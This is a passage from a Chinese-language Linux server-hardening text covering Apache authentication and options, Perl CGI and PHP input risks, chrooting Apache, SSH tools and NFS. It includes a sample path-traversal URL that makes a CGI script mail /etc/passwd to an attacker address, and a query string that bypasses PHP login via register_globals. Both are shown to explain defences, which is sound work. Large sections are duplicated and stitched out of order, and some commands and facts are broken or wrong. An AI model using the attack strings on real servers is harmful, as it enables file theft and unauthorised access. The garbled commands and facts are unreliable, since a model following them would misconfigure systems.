这会创建文件 `/var/www/.htpasswd.area1`（如果保护了多个领域，使用描述性后缀很有用），并为其填充一个用户 `jill` 的条目（用户名是任意的，并不一定需要作为登录名存在），首先会提示你为 `john` 输入密码。后续添加用户不需要 `-c` 选项，尽管你仍然需要指定 `.htpasswd` 文件的位置：

```
# htpasswd /var/www/.htpasswd.area1 andrea
```

对用户名的唯一限制是长度必须在 255 个字符以内，且不能包含冒号。`htpasswd` 工具还可以以非交互方式使用，通过使用 `-b` 选项（批模式）并在命令行上传递所需的密码，例如：

```
# htpasswd -b /var/www/.htpasswd.area1 Cheryl spargirl
```

这使得创建一个脚本（用于在文件、控制台或通过 `CGI` 运行）来管理 `.htpasswd` 文件成为可能。然而，这并不是安全的方法——在程序运行时，密码将在进程列表中可见，任何其他用户都可以查看——因此应尽可能避免。如果用户名已存在，`.htpasswd` 文件将用新密码更新。

`htpasswd` 有多种加密方法可用：

```
- crypt() (-d): 使用系统的 crypt() 函数 (DES)，并且是默认方法。
- MD5 (-m): MD5 哈希值算法的修改版本。
- SHA1 (-s): 这是为了方便从 Netscape Web Server 迁移而添加的，并在 Apache 2.0 中移除。
- plaintext (-p): 无加密，仅为明文。
```

关于这些算法的更多信息可以在附录 E“密码学”中找到；对于大多数用户来说，默认的 `DES` 加密足够了。

### 摘要身份验证

逻辑上，使用摘要身份验证时，创建密码文件的配套工具名为 `htdigest`。其语法与 `htpasswd` 类似，但我们必须包含密码生效的领域：

```
# htdigest -c /var/www/.htdigest employees tara
# htdigest /var/www/.htdigest employees hannah
```

密码以 `MD5` 哈希值存储，没有更改所用加密方法的选项。

### 选项与用户访问

文档根目录的每个目录都可以有各种关联选项，用于控制索引、`CGI` 执行等。此类选项的主要位置是 `Apache` 配置文件——根据配置的不同，用户也可能通过放置在目录中的 `.htaccess` 文件来覆盖这些设置。在某些情况下这是理想的，但在其他情况下，如果用户没有完全理解其行为的安全性影响，它可能是不安全的。

此类选项放置在 `<Directory>` 指令内部，例如：

```
<Directory />
Options FollowSymLinks
AllowOverride None
</Directory>
```

这是 `Apache` 的默认设置，取自配置文件。由于选项会被子目录继承，因此这为文档根目录内的所有目录设置了默认值。这些选项随后可能会被更具体的 `<Directory>` 指令覆盖。从安全角度来看，特别关注的选项有：

- **FollowLinks**: 跟随符号链接。除非你需要它，否则将其关闭；因为它可能会导致访问文档根目录之外的文件。
- **LinksIfOwnerMatch**: 只有当链接的创建者也是目标文件的者时，才会跟随链接。这修复了恶意用户创建非所有文件符号链接的安全漏洞。如果你需要使用链接，请使用此选项而不是 `Followlinks`。
- **Indexes**: 如果开启索引且没有 `index.html`（或 `index.pl`、`index.php` 等）文件，将列目录内容。从隐私角度来看，通常应该关闭索引（如果你提供下载的文件；索引是创建超链接页面的快速替代方案）。
- **Includes**: 设置此选项允许执行服务器端包含（`SSI`）——一种基础脚本形式，用于向页面添加动态内容（如当前日期）。`SSI` 的主要危险是 `exec` 命令，它允许 `HTML` 页面的创建者在系统上执行任意命令。如果使用不当，将是不安全的。即使你确实需要使用 `SSI`，我们也建议禁用它，并改用以下选项：**IncludesNOEXEC**: 这允许执行 `SSI`，但除了 `exec` 和 `include` 命令，它是需要 `SSI` 时的首选选项。
- **ExecCGI**: 关闭脚本的 `CGI` 执行。如果禁用此选项，浏览的 `CGI` 脚本将仅显示其源代码。`CGI` 脚本可能是 Web 服务器上最大的危险，你很快就会看到。

指令的使用方法起初可能会令人困惑。如前所述，它们是继承的，因此关闭 `/var/www/htdocs` 中的 `Indexes` 也会关闭 `/var/www/htdocs/images` 中的索引（除非 `/var/www/htdocs/images` 子目录指令覆盖了此）。此外，指定一个选项具有关闭所有选项的效果，例如：

```
Options FollowSymLinks
```

将关闭 `Indexes`、`ExecCGI` 等。绕过这种令人困惑的行为的方法是在选项前加上加号或减号。以下示例关闭了 `includes`，但不会影响任何其他设置：

如果你为用户提供私有的 Web 空间（通常，他们会在主目录下有一个目录，用于通过 `http://www.example.com/~username/` 访问的 `HTML` 页面），请确保禁用 `SSI` 和 `CGI` 支持（除非绝对必要，如前一节所述）。对于你的主文档根目录，你的要求可以稍微放宽，因为在该目录中创建文件的权限通常仅限于 `root` 用户和属于 `www` 组的选定用户；尽管如此，如果你不需要 `SSI` 或 `CGI` 支持，仍请将其禁用。

## 安全的 Perl-CGI 编程


CGI 本身并不是一种编程语言，而是一个运行脚本的接口；如你所知，你可以使用任何语言编写 CGI 脚本，包括 `C`、`Java`、`Tcl`、`Shell` 脚本或 `Python`。当然，`Perl` 是最流行的，而且 `Perl` 的许多特性使其成为在安全意识环境中进行编程的理想选择。

为了探索这些特性，我们将简要介绍一个简单脚本的，允许网站访问者通过电子邮件请求产品的更多信息。这看起来似乎是一项毫无意义的任务，因为信息很容易通过 `HTML` 页面提供给用户；但它之所以流行，是因为它允许网站所有者建立潜在客户的电子邮件列表。

首先是请求部分的代码：

```html
<html>
<body>

<form method=post action=request.pl>
您的电子邮箱地址： <input type=text name="email"><br>
您的姓名： <input type=text name="name"><br>
请选择您想要获取技术规格的产品：
<select name=document>
<option value="dvd.txt">DVD 播放器</option>
<option value="vcr.txt">VCR</option>
<option value="tv_widescreen.txt">宽屏电视</option>
<option value="tv_flatscreen.txt">平板电视</option>
</select>
<br><br>
<input type=submit>
</form>

</body>
</html>
```

该脚本会打开传递给它的文件名，将内容读取到 `$content` 中，打开一个管道发送到 `sendmail`，然后向给定的地址编写电子邮件。我们假设 `dvd.txt`、`vcr.txt`、`tv_widescreen.txt` 和 `tv_flatfullscreen.txt` 文件都存在 `/var/www/html/docs/` 目录下，并且可能包含产品的技术规格列表。

## 服务加固

你可能会惊讶地发现，此脚本有两种被破坏的方法，允许攻击者查看 Web 服务器上任何执行脚本的用户可读的任何内容（通常是如 `www` 或 `nobody` 的特殊用途账户）。这两种方法都是程序员忽略“永远不要信任用户输入”这一黄金准则的直接结果。

第一个问题出现在 `$document` 变量中。虽然 `HTML` 表单仅为该变量定义了四种可能的值，但没有什么能阻止恶意用户将 `HTML` 代码保存到本地磁盘，编辑表单以包含其他值，然后提交。如果表单使用 `GET` 方法——即数据通过查询字符串传递给脚本——攻击者可以选择不使用表单，而是通过浏览 URL 来手动提交数据，例如：

```
http://www.example.com/cgi-bin/request.pl?name=test&email=evil@cracker.org&document=../../etc/passwd
```

这样做的结果是 `$document` 变量可能包含任何文件名——它不仅限于 `HTML` 表单中提供的四个选项。因为没有对此变量进行任何检查，黑客可能会强制脚本尝试读取（并邮寄内容）系统上的任何文件。即使在 `open()` 调用中将文件名指定为 `/var/www/html/docs/$document` 也不起保护作用：黑客可以很容易通过 `../` 语法请求 `/var/www/html/docs` 目录之外的文件，例如：

```
http://www.example.com/cgi-bin/request.pl?name=test&email=evil@cracker.org&document=../../etc/passwd
```

由于我们想要的文件格式都是 `.txt`，我们本可以使用一系列正则表达式来过滤掉包含 `../` 或不以 `.txt` 结尾的用户输入；但预测用户可能传递的所有恶意字符串是繁琐且容易出错的。消除的一种简单方法是重写脚本，使 `$document` 变量永远不会传递给 `open()`：

```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
$name = $q->param("name");
$email = $q->param("email");
$document = $q->param("document");

if ($document eq 'dvd.txt') {
  $filename = 'dvd.txt'
} elsif ($document eq 'vcr.txt') {
  $filename = 'vcr.txt'
} elsif ($document eq 'tv_widescreen.txt') {
  $filename = 'tv_widescreen.txt'
} else {
  $filename = "tv_flatscreen.txt"
}

open (IN, "< /var/www/html/docs/$filename");
# ... (省略后续处理逻辑) 
```

## 服务安全 405

这在大型脚本中是一个问题。为了辅助这个问题，`Perl` 提供了自己的安全机制，称为`污染模式 (taint mode)`。在污染模式下运行时，`Perl` 会将所有外部数据（包括环境变量、命令行参数和 `CGI` 输入）视为“受污染的”，并且在对这些数据进行清洗之前，拒绝对它们执行任何潜在的不安全操作。被认为是潜在不安全的操作包括写入文件、`exec()`、`system()` 以及任何其他可能影响外部文件或进程的操作。

受污染变量的一个有趣特性是，它们会污染它们所使用的任何其他变量；因此，在下面的示例中，`$fullname`（因为是用户提供的而被认为是污染的）导致导致变量 `$firstname` 和 `$surname` 也变为受污染状态：

```
$fullname = $q->param("fullname");
($firstname, $surname) = split (/ /, $fullname);
# 使用空格作为分隔符分割字符串 $fullname。
```

污染不会扩散的唯一表达式是正则表达式，而这就是清洗受污染数据的方法：`Perl` 假设你的表达式足够健壮，能够使数据变得安全。

通过调用带有 `-T` 标志的 `Perl` 解释器启用污染模式（即 `#!/usr/bin/perl -T`）。

## CGIWrap

`CGI` 脚本的问题之一在于，它们是以 Web 服务器的权限运行的，而不是创建它们的用户的权限。想象你经营着一家 Web 托管公司。用户 `Adele` 在这里托管她的公司网站，并使用一个 `CGI` 脚本，允许员工通过交互式日历选择下周的可工作班次。员工选择的班次被存放在由 `CGI` 脚本创建的文本文件中，而该文件由运行服务器的用户账户所有——通常是 `www` 或 `nobody`。心怀不满的员工 `Tara` 注册了一个账户，并创建了自己的恶意 `CGI` 脚本，该脚本尝试删除她传递过去的文件名。由于该脚本也将以服务器运行的用户身份执行，因此，无论如何如何使用 `chmod`，都无法阻止 `Tara` 删除 `Adele` 的文本文件。

这可能是一个稍显刻意的例子，但它确实说明了所有 `CGI` 脚本都以相同用户身份运行的基本问题。解决方案是 `[CGIWrap](CGIWrap)`，它是一个用于 `CGI` 脚本的封装程序，使它们以创建者的身份执行，而不是 Web 服务器。你可以认为这仅仅是用另一个问题取代了另一个问题——毕竟，现在使得不安全的 `CGI` 脚本能够删除用户自己的文件；然而，意识到他们自己的个人文件可能面临风险，往往会使用户具有更强的安全意识。

## 406 Linux 网络安全

## PHP

恶意用户输入的问题也会影响像 `PHP` 这样的脚本语言；尽管 `PHP` 的正则表达式远没有 `Perl` 强大，但它们仍然可以用于检查用户提交的数据。如果你理解了之前关于 `Perl` 中数据检查的章节，将相同的原理应用于 `PHP` 将是毫不费力的。

`PHP` 的一个有趣特性是 `CGI` 变量的可访问方式。在 `Perl` 中，你必须先读取查询字符串并将其分成组成部分，将数据保存到你的变量中（通过 `CGI .pm` 模块使此任务变得简单）。`PHP` 提供了自动变量赋值选项（称为注册全局变量——这是一个有用但相当不安全的特性），其中会自动创建变量来存储传递给脚本的数据。这些变量通过查询字符串传递。考虑以下 URL：

```
http://example.com/feedback.php?name=peter&email=peteexample.org&message=great%20site
```

如果启用了注册全局变量，当脚本执行时：`$name`、`$email` 和 `$message`。然而，由于攻击者可以向查询字符串添加所需的任何数据，他可以将任何变量注入脚本中。下面的脚本片段说明了这种危险性：

```
if ($password eq "letmein") {
    $authenticated = "yes"
}
....
```

```
if ($authenticated eq "yes") {
    // 显示数据或提供仅限管理员访问的功能
}
```


这种类型的代码可能会出现在管理员控制面板中。第一个代码段检查存储在 `$password` 变量中的字符串（推测该字符串是由用户提供的），如果密码正确，则将 `$authenticated` 变量设置为 `yes`。随后的代码可以测试存储在 `$authenticated` 中的值，以决定是否应该访问某个功能。在这个示例中，`PHP` 的自动变量赋值证明是相当危险的。如果攻击者使用查询字符串 `password=anything&authenticated=yes` 启动脚本，变量 `$authenticated` 将被自动创建，并且其值被设置为 `yes`。密码保护被完全绕过了。

## 服务安全 407

由于注册全局变量的潜在危险，`PHP` 在 `4.2.0` 及更高版本中采取了默认禁用的步骤。这引起了一定争议，因为许多现有脚本依赖于这种行为；但这是一个明智的举措。你应该禁用它们，或者保持禁用状态，因为查询字符串可以通过其他方法（例如 `$_REQUEST` 数组）访问。

注册全局变量等配置选项存储在全局 `php.ini` 配置中，它通常位于 `/etc` 或 `/etc/apache`。你应该仔细研究此文件，因为它包含了与安全和性能相关的选项，因此我们认为在这里不需要进行进一步解释。

## Chroot Apache

在阅读了第 8 章“系统加固”中对 `chroot` 的讨论后，你应该已经熟悉这种技术，但也意识到它远非完美的解决方案（你可能甚至决定实现 `Grsecurity` 提供的 `chroot` 增强）。我们现在来看在 `chroot` 内部实现 `Apache` 更具实际的问题。

## 创建目录结构

第一步是创建目录结构。我们假设 `/chroot` 目录已专门创建用于存放 `chroot` 守护进程，并将 `Apache` 放置其中（使用 `-p` 标志告诉 `mkdir` 创建任何父目录）：

```
mkdir -p /chroot/httpd/dev
mkdir -p /chroot/httpd/etc
mkdir -p /chroot/httpd/usr/bin
mkdir -p /chroot/httpd/usr/sbin
mkdir -p /chroot/httpd/usr/lib
mkdir -p /chroot/httpd/usr/libexec
mkdir -p /chroot/httpd/usr/local/bin
mkdir -p /chroot/httpd/usr/local/conf
mkdir -p /chroot/httpd/usr/local/share
mkdir -p /chroot/httpd/usr/local/zoneinfo
mkdir -p /chroot/httpd/var/www
```

根据你编译 `Apache` 的方式，可能还需要其他目录。`tmp` 目录需要 `0777` 权限，并且应该设置粘滞位：

```
chmod 777 /chroot/httpd/tmp
chmod +t /chroot/httpd/tmp
```

接下来，你需要创建空设备文件，并将其分配给正确的用户和组：

```
mod -m 666 /chroot/httpd/dev/null c 1 3
chown root.sys /chroot/httpd/dev/null
```

## 复制文件

如果 `Apache` 已安装并正在运行，请将其杀死（`killall httpd`）。将 `Apache` 二进制文件以及任何其他 `Apache` 管理脚本（通常位于 `/etc/apache`）复制配置文件：

```
cp -r /etc/apache /chroot/httpd/etc
cp /usr/sbin/httpd /chroot/httpd/usr/sbin/
cp /usr/sbin/apache* /chroot/httpd/usr/sbin
```

接下来，复制文档根（包含你的网站）。该位置异异，通常为 `/var/www/httpdocs` 或 `/home/httpd`：

```
cp -r /var/www/httpdocs /chroot/httpd/var/www
```

如果你使用 `SSL`，还需要 `/etc/ssl` 目录：

```
cp -r /etc/ssl /chroot/httpd/etc
```

`Apache` 需要的任何模块也需要复制。与其确定需要哪些模块，更简单的方法是将它们全部复制：

```
cp -r /usr/libexec/apache /chroot/httpd/usr/libexec
```

虽然不是严格必要的，但你应该设置时区以确保日志文件包含正确的时间。复制对应你时区的文件。

# 服务安全 409

```bash
# cp /usr/share/zoneinfo/GMT /chroot/httpd/usr/share/zoneinfo
# ln -s /chroot/httpd/usr/share/zoneinfo/GMT \
  /chroot/httpd/etc/localtime
```

接下来需要复制的是必要的共享库。可以通过以下命令确定：

```bash
# ldd /chroot/httpd/usr/sbin/httpd
libm.so.6 => /lib/libc.so.6 (0x40029000)
libcrypt.so.1 => /lib/libcrypt.so.1 (0x4004d000)
libdb.so.2 => /lib/libdb.so.2 (0x4007a000)
libexpat.so.0 => /usr/libexpat.so.0 (0x40089000)
libld.so.2 => /lib/libld.so.2 (0x400a8000)
ibc.so.6 => /lib/libc.so.6 (0x400ab000)
/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

你还需要提供网络功能的 `libnss_compat*` 库：

- `/lib/libnss_compat*`

- `/lib/libnss_dns*`

- `/lib/libnss_files*`

- `/lib/libnss*`

你需要从 `/etc` 目录获取以下文件：

```
/etc/hosts
/etc/hosts.conf
/etc/resolv.conf
/etc/nsswitch.conf
/etc/passwd
/etc/shadow
```

# 配置监狱 (Jail)

大部分工作已经完成，但你仍然需要进行一些配置。第一步是用文本编辑器编辑 `/chroot/httpd/etc/passwd` 和 `/chroot/httpd/etc/shadow`，删除除 `Apache` 运行用户以外的所有用户账户——以防止监狱内的入侵者获取任何其他用户 `ID`。

接下来，你需要修改 `syslogd`，使其也监控 `/chroot/httpd/var/log`（默认情况下它监控 `/var/log`）；相关文件可能是 `/etc/rc.d/init.d/syslog` 或 `/etc/rc.d/syslog`，取决于你的发行版。

`Red Hat` 通过提供位于 `/etc/sysconfig/syslog` 的 `syslog` 配置文件简化了该过程，但你也可以直接编辑 `rc` 脚本。遵循此额外选项，在启动 `syslog` 时需要传递以下参数：

```bash
-a /chroot/httpd/var/log
```

在 `Red Hat` 上，编辑 `/etc/rc.d/init/syslog` 中的：

```bash
SYSLOGD_OPTIONS="-m 0"
```

读取：

```bash
SYSLOGD_OPTIONS="-m 0 -a /chroot/httpd/var/log"
```

在其他发行版上（例如下面来自 `Slack` 的示例），你需要将这些参数追加到执行 `syslogd` 的实际行中：

```bash
syslogd_start() {
  if [ -x /usr/sbin/syslogd -a -x /usr/sbin/klogd ]; then
    echo -n " Starting syslogd daemons: "
    echo -n " /usr/sbin/syslogd"
    /usr/sbin/syslogd
    sleep 1 # 防止 SMP 内核上的 syslogd/klogd 竞态条件
    echo " /usr/sbin/syslogd -c 3 -x"
    # '-c 3' = 在控制台上显示 error 或更高级别的消息
    # '-x' = 关闭损坏的 EIP 翻译
    /usr/sbin/syslogd -c 3 -x
  fi
}
```

第 5 行应改为：

```bash
/usr/sbin/syslogd -a /chroot/httpd/var/log
```


完成这些更改后，必须重启 `syslog` (`kill -HUP <pid>`)。最后一步是修改 Apache 的启动脚本，使其在 `chroot` 监狱内部启动。BSD jail Grsecurity 补丁通过在调用 `chroot` 之前切换到新的根目录修复了潜在漏洞；然而 Linux 的 `chroot` 命令并没有，因此你应该修改启动脚本以包含一个 `chdir` 调用。

# 服务安全 411

在 Red Hat 上，文件名为 `/etc/rc.d/init.d/httpd`，以下是启动守护进程的代码：

```bash
start() {
  echo -n "Starting $prog: *"
  daemon $httpd `moduleargs` $OPTIONS
  RETVAL=$?
  echo
  [ $RETVAL = 0 ] && touch /var/lock/subsys/httpd
  return $RETVAL
}
```

启动 Apache 的新命令是：

```bash
chdir /chroot/httpd; /usr/sbin/chroot /chroot/httpd /usr/sbin/httpd
```

注意 `/usr/sbin/httpd` 指的是从 `chroot` 监狱看到的 `/usr/sbin/httpd` 文件，它实际上是 `/chroot/httpd/usr/sbin/httpd`。

如下修改 `start()` 函数：

```bash
start() {
  echo -n "Starting $prog: *"
  daemon $httpd `moduleargs` $OPTIONS
  RETVAL=$?
  echo
  [ $RETVAL = 0 ] && touch /var/lock/subsys/httpd
  return $RETVAL
}
```

# 重启 Apache

启动 Apache 的新命令是：

```bash
chdir /chroot/httpd; /usr/sbin/chroot /chroot/httpd /usr/sbin/httpd
```

注意 `/usr/sbin/httpd` 指的是从 `chroot` 监狱看到的 `/usr/sbin/httpd` 文件，它实际上是 `/chroot/httpd/usr/sbin/httpd`。

如下修改 `start()` 函数：

```bash
start() {
  echo -n "Starting $prog: *"
  daemon $httpd `moduleargs` $OPTIONS
  RETVAL=$?
  echo
  [ $RETVAL = 0 ] && touch /var/lock/subsys/httpd
  return $RETVAL
}
```

# 服务安全 409

```bash
# cp /usr/share/zoneinfo/GMT /chroot/httpd/usr/share/zoneinfo
# ln -s /chroot/httpd/usr/share/zoneinfo/GMT \
  /chroot/httpd/etc/localtime
```

接下来需要复制的是必要的共享库。可以通过以下命令确定：

```bash
# ldd /chroot/httpd/usr/sbin/httpd
libm.so.6 => /lib/libc.so.6 (0x40029000)
libcrypt.so.1 => /lib/libcrypt.so.1 (0x4004d000)
libdb.so.2 => /lib/libdb.so.2 (0x4007a000)
libexpat.so.0 => /usr/libexpat.so.0 (0x40089000)
libld.so.2 => /lib/libld.so.2 (0x400a8000)
ibc.so.6 => /lib/libc.so.6 (0x400ab000)
/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

你还需要提供网络功能的 `libnss_compat*` 库：

- `/lib/libnss_compat*`
- `/lib/libnss_dns*`
- `/lib/libnss_files*`
- `/lib/libnss*`

你需要从 `/etc` 目录获取以下文件：

```
/etc/hosts
/etc/hosts.conf
/etc/resolv.conf
/etc/nsswitch.conf
/etc/passwd
/etc/shadow
```

# 配置监狱 (Jail)

大部分工作已经完成，但你仍然需要进行一些配置。第一步是用文本编辑器编辑 `/chroot/httpd/etc/passwd` 和 `/chroot/httpd/etc/shadow`，删除除 Apache 运行用户以外的所有用户账户——以防止监狱内的入侵者获取任何其他用户 ID。

接下来，你需要修改 `syslogd`，使其也监控 `/chroot/httpd/var/log`（默认情况下它监控 `/var/log`）；相关文件可能是 `/etc/rc.d/init.d/syslog` 或 `/etc/rc.d/syslog`，取决于你的发行版。

Red Hat 通过提供位于 `/etc/sysconfig/syslog` 的 `syslog` 配置文件简化了该过程，但你也可以直接编辑 `rc` 脚本。遵循此额外选项，在启动 `syslog` 时需要传递以下参数：

```bash
-a /chroot/httpd/var/log
```

在 Red Hat 上，编辑 `/etc/rc.d/init/syslog` 中的：

```bash
SYSLOGD_OPTIONS="-m 0"
```

读取：

```bash
SYSLOGD_OPTIONS="-m 0 -a /chroot/httpd/var/log"
```

在其他发行版上（例如下面来自 Slack 的示例），你需要将这些参数追加到执行 `syslogd` 的实际行中：


```bash
syslogd_start() {
  if [ -x /usr/sbin/syslogd -a -x /usr/sbin/klogd ]; then
    echo -n " Starting syslogd daemons: "
    echo -n " /usr/sbin/syslogd"
    /usr/sbin/syslogd
    sleep 1 # 防止 SMP 内核上的 syslogd/klogd 竞态条件
    echo " /usr/sbin/syslogd -c 3 -x"
    # '-c 3' = 在控制台上显示 error 或更高级别的消息
    # '-x' = 关闭损坏的 EIP 翻译
    /usr/sbin/syslogd -c 3 -x
  fi
}
```

第 5 行应改为：

```bash
/usr/sbin/syslogd -a /chroot/httpd/var/log
```

完成这些更改后，必须重启 `syslog` (`kill -HUP <pid>`)。最后一步是修改 `Apache` 的启动脚本，使其在 `chroot` 监狱内部启动。`BSD jail` `Grsecurity` 补丁通过在调用 `chroot` 之前切换到新的根目录修复了潜在漏洞；然而 `Linux` 的 `chroot` 命令并没有，因此你应该修改启动脚本以包含一个 `chdir` 调用。

## 服务安全 411

在 `Red Hat` 上，文件名为 `/etc/rc.d/init.d/httpd`，以下是启动守护进程的代码：

```bash
start() {
  echo -n "Starting $prog: *"
  daemon $httpd `moduleargs` $OPTIONS
  RETVAL=$?
  echo
  [ $RETVAL = 0 ] && touch /var/lock/subsys/httpd
  return $RETVAL
}
```

启动 `Apache` 的新命令是：

```bash
chdir /chroot/httpd; /usr/sbin/chroot /chroot/httpd /usr/sbin/httpd
```

注意 `/usr/sbin/httpd` 指的是从 `chroot` 监狱看到的 `/usr/sbin/httpd` 文件，它实际上是 `/chroot/httpd/usr/sbin/httpd`。

如下修改 `start()` 函数：

```bash
start() {
  echo -n "Starting $prog: *"
  daemon $httpd `moduleargs` $OPTIONS
  RETVAL=$?
  echo
  [ $RETVAL = 0 ] && touch /var/lock/subsys/httpd
  return $RETVAL
}
```

## SSH 工具

`SSH` 旨在作为 `BSD R*` 程序套件（`rcp`, `rsh` 和 `rlogin`）的无缝替代方案，并包含了安全方式传输文件的工具。如果你还没有使用这些工具，我们强烈建议使用，因为数据通过加密通道传输，消除了被嗅探的可能性。

### scp

`scp` (`secure cp`) 提供了通过加密通道跨主机复制文件的方法。语法与 `cp` 命令相似。以下示例将本地文件 `/home/p/index.html` 复制到远程机器 `example.com` 的 `/var/www/htdocs/`，首先以用户 `pete` 的身份登录：

```bash
$ /home/pete/index.html pete@example.com:/var/www/htdocs/
pete@example.com's password:
index.html
100% 467 0.0KB/s 00:00
```

同样，你可以从远程机器将文件复制到本地机器。

### 414 Linux 网络安全

```bash
$ scp pete@example.com:/var/www/htdocs/images/*.gif /home/pete/
```

在你习惯了 `scp` 语法后，你会发现它是传输文件的一种快速且方便的方法（事实上，你可能再也不想用 `FTP` 了）；但是，你确实需要提前远程系统的目录结构。

### sftp

`sftp` 提供了一种类似于 `FTP` 的交互式文件传输方式；其区别在于——再次强调——数据和控制会话都是加密的：

```bash
sftp pete@example.com
Connecting to example.com...
pete@example.com's password:
sftp> ls -l
rdrwxr-xr-x-- 0 0 4096 Aug 22 15:03 .
rdrwxr-xr-x 0 0 4096 Jan 09 2004 ..
drdwx- 0 0 4098 Jul 28 13:06 .BitchX
-rw-r--r-- 0 0 1126 Aug 23 1995 .Xresources
-rw-r--r-- 0 0 0 Jun 26 2003 .addressbook
-rw-r-- 0 0 14618 Aug 23 13:49 .bash_history
-rw-r-r-- 0 0 24 Jun 10 2000 .bash_login
-rw-r--r-- 0 0 234 Jul 5 2001 .bash_profile
```

`sftp` 和 `scp` 的缺点是它们要求用户对远程站点拥有 `SSH` 访问权限，这可能超出了所需的范围；但优点是，它们消除了运行 `FTP` 守护进程的需求——这是黑客攻击的常见点。

### 连接隧道化

`SSH` 的一个不常见但极其实用的特性是其在其加密通道上进行隧道传输的能力，为其他易被嗅探的明文协议提供安全性。`sftp` 和 `scp` 都以间接的方式实现了这一点，`SSH` 的灵活性意味着任何协议都可以被使用。这被称为端口转发或连接隧道化。

例如，假设你想从本地 `POP3` 服务器获取邮件。除了以明文传输用户名和密码外，邮件内容也将被嗅探中间网络的攻击者所看到。然而，如果 `SSH` 守护进程运行在 `POP3` 服务器上，且你在该系统上有一个有效的登录账户，则可以使用端口转发将 `POP3` 事务通过加密的 `SSH` 进行隧道传输。这是通过使用 `-L` 选项实现的：

### 服务加固 415

```bash
$ ssh -L <port>:<host>:<hostport>
```

例如：

```bash
$ ssh -L 12345:mail.example.com:110
```

这指定了本地机器上的 `12345/TCP` 端口应该转发到 `mail.example.com` 的 `110/TCP`。如果你想手动验证，可以尝试 `telnet` 到 `localhost` 的 `12345` 端口。你将看到邮件服务器的 `POP3` 标幅（`banner`）；然后你可以将本地邮件客户端设置为使用 `localhost:110` 作为获取邮件的地址。在 `mail.example.com` 和本地机器之间流的所有 `POP3` 流量都将在 `SSH` 下进行加密和隧道传输。配合 `X11` 转发和 `sc/ftp`，隧道化的缺点是 `SSH` 守护进程必须在远程机器上运行。作为管理员，你将必须决定加密隧道带来的益处是否大于允许用户远程登录服务器机器（无论是邮件、`FTP`、`DNS` 等）带来的安全风险。`SSH` 隧道作为一种快速的权宜方案很有用，但如果你打算正规地对多个协议进行隧道处理，不如去探索 `IPSec`，它在第 3 章“安全拓扑”中有所介绍。

### 10.3 NFS 和 NIS

我们将这两个协议归为一类是因为它们有许多相似之处：它们都由 `Sun` 开发，都利用了 `Sun RPC`，都旨在用于内部网络，并且都具有很长的漏洞历史。然而，它们服务于两个不同的目的：`NFS` 允许跨 `Unix` 机器共享目录，而 `NIS` 则允许管理员为工作站设置维护集中数据库。

`NFS` 和 `NIS` 的不安全性部分源于它们对 `RPC` 的使用，`RPC` 有很长的远程 `root` 漏洞利用历史——由于这样一个多 `Bug` 的协议作为两项服务的基础，安全性变得难以保证。由于两者都用于内部网络（任何一个都不应该运行在直接与互联网接触的机器上），它们真正的威胁程度取决于你对本地用户的信任程度；例如，在小型系统上，这些服务是没问题的（而且非常有用），但在公司网络中，你几乎绝对应该考虑替代方案。

### NFS

网络文件系统 (`NFS`) 由 `Sun` 开发，用于让网络化的 `Unix` 机器能够跨网络透明地访问文件。遗憾的是，该协议在设计时从未考虑安全性，多年来它一直是漏洞的源源。`NFS` 运行在 `UDP` 或 `TCP` 上，并使用 `Sun` 的 `RPC` 系统，这意味着经常脆弱的 `portmapper`、`nfs`、`nlock-mgr` (`lockd`)、`rquotad`、`statd` 和 `mount`（参见第 6 章“基础系统安全”中对这些 `RPC` 服务的讨论）可以被降至最低。我们的建议是不要直接向互联网导出 `NFS`。

### /exports

第一步是有选择性地提供导出。要导出的目录定义在 `/etc/exports` 文件中，格式为目录后跟用户列表。例如：

```text
/home/pete    10.0.6(rw)
```

支持的选项有：


- `secure`：请求必须源自 `root` 权限。

- `root_squash`：将 `root` 请求映射为匿名 `UID`。

- `all_squash`：所有请求都映射为匿名 `UID`。

如果恶意用户获得了服务器的 `root` 权限，他将拥有完全控制权；因此，你应该仔细选择导出的部分。永远不要导出任何包含系统二进制文件或库的目录。

在客户端，挂载 NFS 导出应使用 `-o nosuid` 选项，这会导致挂载的文件系统忽略 `SUID` 和 `GID` 位。例如：

```bash
$ mount -t nfs -o nosuid 10.0.0.3:/home/pete /mnt/home/pete/
```

这防止了获得服务器 `root` 权限的攻击者通过 `SUID` 后门获取客户端的 `root` 权限。

## 限制访问

无论什么服务，你都应该使用 `Iptables` 限制访问；对于 NFS 服务器，这一步尤为重要。不仅不仅对未使用的服务采取预防措施，还应该选择性地限制连接到 NFS 进程（`2049/UDP/TCP`）及其相关 `RPC` 服务。

某些 `RPC` 服务（如 `portmapper` 和 `NFS`）使用定义端口（`113` 和 `2049/UDP/TCP`），但遗憾的是，大多数并不使用，这使得包过滤变得困难（似乎的方法是开放 `RPC` 使用的 `32768–65535` 范围内的所有端口）。好消息是——从 `Linux 2.4.13` 开始——可以通过在启动时传递 `-p` 选项强制各种服务在特定端口上启动。以下是 `/etc/rc.init.d/nfslock` 中的 `start()` 函数——启动和停止 `nfslock` 的脚本：

```bash
start() {
  # Start daemons.
  if [ "$USERLAND_LOCK" ]; then
    echo -n "Starting NFS locking:"
    daemon rpc.lockd
    echo
  fi
  echo -n "Starting NFS statd:"
  daemon rpc.statd
  RETVAL=$?
  echo
  [ $RETVAL -eq 0 ] && touch /var/lock/nfslock
  return $RETVAL
}
```

要强制 `statd` 在特定端口上启动，你需要将守护进程 `rpc.statd` 修改为 `daemon rpc.statd -p 32800`（或你希望任何端口）。同样的方法也适用于为 `mountd`、`nfsd` 和 `rquotad` 设置固定端口，这些服务都由 `/etc/rc.d/init.d/nfs` 脚本启动。该脚本的启动代码块（摘自一台红帽机器）：

```bash
start)
# Start daemons.
action $Starting NFS services: " -x /usr/sbin/rpc.quotad ]; then 
    echo -n $Starting NFS quotas: "
    daemon rpc.quotad
    echo
fi
echo -n $Starting NFS mount: "
    daemon rpc.mountd $RPCMOUNTDPTS
    echo
echo -n $Starting NFS daemon: "
    daemon rpc.nfsd $RPCCNFSCOUNT
    echo
touch /var/lock/subsys/nfs
;;
```

更改锁管理器（`nlockmgr`）端口的方法稍复杂一些（注意我们没有尝试在 `/etc/rc.d/init.d/nfslock` 中修改它）。锁是在内核中实现的——要么作为模块，要么静态编译。对于前者，你可以通过编辑 `/etc/modules.conf` 并列出传递给模块的选项来指定端口：

```bash
options lockd nlm_udpportport=33000 nlm_tcpportport=33000
```

